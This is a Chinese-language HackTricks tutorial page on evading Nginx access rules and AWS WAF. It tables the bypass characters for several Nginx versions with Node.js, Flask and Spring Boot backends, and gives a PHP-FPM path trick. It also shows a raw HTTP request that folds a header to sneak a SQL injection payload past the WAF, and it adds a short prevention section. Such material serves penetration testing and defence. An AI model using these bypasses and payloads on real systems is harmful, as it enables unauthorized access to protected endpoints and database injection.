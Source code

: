 # 代理 / WAF 保护绕过

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您希望在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>

## 绕过 Nginx ACL 规则 <a href="#heading-bypassing-nginx-acl-rules-with-nodejs" id="heading-bypassing-nginx-acl-rules-with-nodejs"></a>

Nginx 限制示例：
```plaintext
location = /admin {
deny all;
}

location = /admin/ {
deny all;
}
```
### NodeJS

<figure><img src="../.gitbook/assets/image (713).png" alt=""><figcaption></figcaption></figure>

* 由于Nginx将字符`\xa0`包含在路径名中，因此不会触发对`/admin` URI的ACL规则。结果，Nginx将HTTP消息转发到后端；
* 当Node.js服务器收到URI `/admin\x0a`时，将删除字符`\xa0`，允许成功检索`/admin`端点。

| Nginx版本 | **Node.js绕过字符** |
| ------------- | ----------------------------- |
| 1.22.0        | `\xA0`                        |
| 1.21.6        | `\xA0`                        |
| 1.20.2        | `\xA0`, `\x09`, `\x0C`        |
| 1.18.0        | `\xA0`, `\x09`, `\x0C`        |
| 1.16.1        | `\xA0`, `\x09`, `\x0C`        |

### Flask

Flask会从URL路径中移除字符`\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B`和`\x09`，但NGINX不会。

<figure><img src="../.gitbook/assets/image (714).png" alt=""><figcaption></figcaption></figure>

| Nginx版本 | **Flask绕过字符**                                    |
| ------------- | -------------------------------------------------------------- |
| 1.22.0        | `\x85`, `\xA0`                                                 |
| 1.21.6        | `\x85`, `\xA0`                                                 |
| 1.20.2        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |
| 1.18.0        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |
| 1.16.1        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |

### Spring Boot <a href="#heading-bypassing-nginx-acl-rules-with-spring-boot" id="heading-bypassing-nginx-acl-rules-with-spring-boot"></a>

以下是通过在路径名末尾添加字符`\x09`或的ACL保护绕过演示：

<figure><img src="../.gitbook/assets/image (715).png" alt=""><figcaption></figcaption></figure>

| Nginx版本 | **Spring Boot绕过字符** |
| ------------- | --------------------------------- |
| 1.22.0        | `;`                               |
| 1.21.6        | `;`                               |
| 1.20.2        | `\x09`, `;`                       |
| 1.18.0        | `\x09`, `;`                       |
| 1.16.1        | `\x09`, `;`                       |

### PHP-FPM <a href="#heading-bypassing-nginx-acl-rules-with-php-fpm-integration" id="heading-bypassing-nginx-acl-rules-with-php-fpm-integration"></a>

考虑以下Nginx FPM配置：
```plaintext
location = /admin.php {
deny all;
}

location ~ \.php$ {
include snippets/fastcgi-php.conf;
fastcgi_pass unix:/run/php/php8.1-fpm.sock;
}
```
可以通过访问 `/admin.php/index.php` 来绕过它：

<figure><img src="../.gitbook/assets/image (716).png" alt=""><figcaption></figcaption></figure>

### 如何防止 <a href="#heading-how-to-prevent" id="heading-how-to-prevent"></a>

为了防止这些问题，你必须在 Nginx ACL 规则中使用 `~` 表达式而不是 `=` 表达式，例如：

COPYCOPY
```plaintext
location ~* ^/admin {
deny all;
}
```
## 绕过 AWS WAF ACL 的行折叠技术 <a href="#heading-bypassing-aws-waf-acl-with-line-folding" id="heading-bypassing-aws-waf-acl-with-line-folding"></a>

通过使用以下语法，可以在HTTP头中绕过AWS WAF保护，AWS WAF将无法理解X-Query头包含的是sql注入负载，而后面的node服务器却能理解：
```http
GET / HTTP/1.1\r\n
Host: target.com\r\n
X-Query: Value\r\n
\t' or '1'='1' -- \r\n
Connection: close\r\n
\r\n
```
## 参考资料

* [https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
